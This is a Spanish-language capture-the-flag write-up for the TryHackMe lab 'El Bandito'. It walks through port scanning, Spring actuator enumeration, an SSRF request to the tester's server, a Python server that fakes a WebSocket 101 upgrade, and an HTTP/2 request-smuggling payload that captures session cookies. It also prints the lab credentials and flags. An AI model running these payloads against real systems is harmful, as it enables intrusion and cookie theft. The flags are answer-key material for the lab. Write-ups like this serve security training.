# El Bandito

## Enumeration

### Nmap

Scan de puertos vulnerables
```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.183.199 -oG allPorts

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-29 01:21 -04
Initiating SYN Stealth Scan at 01:21
Scanning 10.10.183.199 [65535 ports]
Discovered open port 22/tcp on 10.10.183.199
Discovered open port 80/tcp on 10.10.183.199
Discovered open port 8080/tcp on 10.10.183.199
Discovered open port 631/tcp on 10.10.183.199
Completed SYN Stealth Scan at 01:21, 15.78s elapsed (65535 total ports)
Nmap scan report for 10.10.183.199
Host is up, received user-set (0.23s latency).
Scanned at 2025-06-29 01:21:39 -04 for 16s
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 62
631/tcp  open  ipp        syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 62
```

Buscamos servicios
```bash
nmap -sC -sV -p22,80,631,8080 10.10.183.199  -oN targeted 

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:43:a2:44:81:17:b0:bd:4c:c4:4e:09:a5:2b:33:60 (RSA)
|   256 da:7c:d9:56:da:36:f5:ad:3a:eb:95:ae:aa:14:87:b1 (ECDSA)
|_  256 52:fb:bf:03:d7:ce:dd:11:86:65:1b:f6:7b:77:fa:e3 (ED25519)
80/tcp   open  ssl/http El Bandito Server
|_http-server-header: El Bandito Server
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| ssl-cert: Subject: commonName=localhost
| Subject Alternative Name: DNS:localhost
| Not valid before: 2021-04-10T06:51:56
|_Not valid after:  2031-04-08T06:51:56
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 NOT FOUND
|     Date: Sun, 29 Jun 2025 05:23:50 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: SAMEORIGIN
|     X-XSS-Protection: 1; mode=block
|     Feature-Policy: microphone 'none'; geolocation 'none';
|     Age: 0
|     Server: El Bandito Server
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Sun, 29 Jun 2025 05:22:51 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 58
|     Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: SAMEORIGIN
|     X-XSS-Protection: 1; mode=block
|     Feature-Policy: microphone 'none'; geolocation 'none';
|     Age: 0
|     Server: El Bandito Server
|     Accept-Ranges: bytes
|     Connection: close
|     nothing to see <script src='/static/messages.js'></script>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Sun, 29 Jun 2025 05:22:52 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 0
|     Allow: GET, OPTIONS, HEAD, POST
|     Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: SAMEORIGIN
|     X-XSS-Protection: 1; mode=block
|     Feature-Policy: microphone 'none'; geolocation 'none';
|     Age: 0
|     Server: El Bandito Server
|     Accept-Ranges: bytes
|     Connection: close
|   RTSPRequest: 
|_    HTTP/1.1 400 Bad Request
|_ssl-date: TLS randomness does not represent time
631/tcp  open  ipp      CUPS 2.4
|_http-title: Forbidden - CUPS v2.4.7
|_http-server-header: CUPS/2.4 IPP/2.1
8080/tcp open  http     nginx
|_http-favicon: Spring Java Framework
|_http-title: Site doesn't have a title (application/json;charset=UTF-8).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.95%T=SSL%I=7%D=6/29%Time=6860CDAC%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,1E5,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sun,\x2029\x20Jun\
SF:x202025\x2005:22:51\x20GMT\r\nContent-Type:\x20text/html;\x20charset=ut
SF:f-8\r\nContent-Length:\x2058\r\nContent-Security-Policy:\x20default-src
SF:\x20'self';\x20script-src\x20'self';\x20object-src\x20'none';\r\nX-Cont
SF:ent-Type-Options:\x20nosniff\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-XSS
SF:-Protection:\x201;\x20mode=block\r\nFeature-Policy:\x20microphone\x20'n
SF:one';\x20geolocation\x20'none';\r\nAge:\x200\r\nServer:\x20El\x20Bandit
SF:o\x20Server\r\nAccept-Ranges:\x20bytes\r\nConnection:\x20close\r\n\r\nn
SF:othing\x20to\x20see\x20<script\x20src='/static/messages\.js'></script>"
SF:)%r(HTTPOptions,1CB,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sun,\x2029\x20J
SF:un\x202025\x2005:22:52\x20GMT\r\nContent-Type:\x20text/html;\x20charset
SF:=utf-8\r\nContent-Length:\x200\r\nAllow:\x20GET,\x20OPTIONS,\x20HEAD,\x
SF:20POST\r\nContent-Security-Policy:\x20default-src\x20'self';\x20script-
SF:src\x20'self';\x20object-src\x20'none';\r\nX-Content-Type-Options:\x20n
SF:osniff\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-XSS-Protection:\x201;\x20
SF:mode=block\r\nFeature-Policy:\x20microphone\x20'none';\x20geolocation\x
SF:20'none';\r\nAge:\x200\r\nServer:\x20El\x20Bandito\x20Server\r\nAccept-
SF:Ranges:\x20bytes\r\nConnection:\x20close\r\n\r\n")%r(RTSPRequest,1C,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(FourOhFourRequest,26C,"HTT
SF:P/1\.1\x20404\x20NOT\x20FOUND\r\nDate:\x20Sun,\x2029\x20Jun\x202025\x20
SF:05:23:50\x20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nCont
SF:ent-Length:\x20207\r\nContent-Security-Policy:\x20default-src\x20'self'
SF:;\x20script-src\x20'self';\x20object-src\x20'none';\r\nX-Content-Type-O
SF:ptions:\x20nosniff\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-XSS-Protectio
SF:n:\x201;\x20mode=block\r\nFeature-Policy:\x20microphone\x20'none';\x20g
SF:eolocation\x20'none';\r\nAge:\x200\r\nServer:\x20El\x20Bandito\x20Serve
SF:r\r\nConnection:\x20close\r\n\r\n<!doctype\x20html>\n<html\x20lang=en>\
SF:n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>\n<p>The\x20r
SF:equested\x20URL\x20was\x20not\x20found\x20on\x20the\x20server\.\x20If\x
SF:20you\x20entered\x20the\x20URL\x20manually\x20please\x20check\x20your\x
SF:20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP







Recurso: 
https://hacktricks.wiki/en/network-services-pentesting/pentesting-web/spring-actuators.html#key-points




Consultamos la ruta `/health`



Consultamos la ruta `/mappings`



ahora es posible obtener otras posibles rutas

```bash
/admin-creds
/admin-flag
/token
/isOnline
/error
/heapdump
/autoconfig
/trace
/health
/dump
/configprops
/env/{name:.*
```

## Exploit

Probamos con la ruta `/isOnline`

```bash
GET /isOnline?url=http://10.9.244.36:5555/test.txt HTTP/1.1
```



El servidor HTTP Python recibió la solicitud, lo que confirmó que el punto final era vulnerable a SSRF (Server-Side Request Forgery).



Usando este SSRF, se crea un servidor malicioso que siempre respondía con 101, engañando al frontend para que aceptara el túnel WebSocket.

```bash  title="myserver.py"
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("""
Usage: {}
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.protocol_version = "HTTP/1.1"
       self.send_response(101)
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```



En la solicitud `/admin-creds`es obligatorio el encabezado Host, y se debe dejar dos espacios para que se interprete como el cuerpo.




| user | pass |
|---|---|
| hAckLIEN | YouCanCatchUsInYourDreams404 |

Esta solicitud `/admin-flag` devolvió con éxito las credenciales de administrador.




```bash
THM{:::MY_DECLINATION:+62°_14\'_31.4'':::}
```





Al analizar el frontend JavaScript (messages.js), se identifican dos funciones:

- send_message() → Envía mensajes mediante POST.
- getMessages() → Recupera todos los mensajes almacenados.



```bash
GET /getMessages HTTP/2
Host: elbandito.thm:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.aGDZBA.mxbv5aaUUAY9qia2Dc27uRE35FY
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://elbandito.thm:80/access
Dnt: 1
Sec-Gpc: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

La aplicación utilizaba HTTP/2, lo que significa que el método anterior de contrabando de WebSocket no funcionaría. Sin embargo, dado que muchos sistemas cambian a HTTP/1.1 en el backend, esto abrió la posibilidad de un ataque de HTTP/2 Desync attack (contrabando H2 → H1).


Sabiendo que el servidor es vulnerable, ahora hay que convertir esta vulnerabilidad. Para lograr esto, interceptar completamente la solicitud del usuario y enviarla como si fuera un mensaje de la función `send_message()` para poder verlo reflejado en la función `getMessages()`, robando así las cookies del usuario.

Enviamos con el Repeater la carga útil

```bash
POST / HTTP/2
Host: elbandito.thm:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.aGDZBA.mxbv5aaUUAY9qia2Dc27uRE35FY
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Length: 0

POST /send_message HTTP/1.1
Host: elbandito.thm:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.aGDZBA.mxbv5aaUUAY9qia2Dc27uRE35FY
Content-Length: 900
Content-Type: application/x-www-form-urlencoded

data=


```





```bash
flag=THM{\u00a1!\u00a1RIGHT_ASCENSION_12h_36m_25.46s!\u00a1!}\r\nX-Forwa"
```


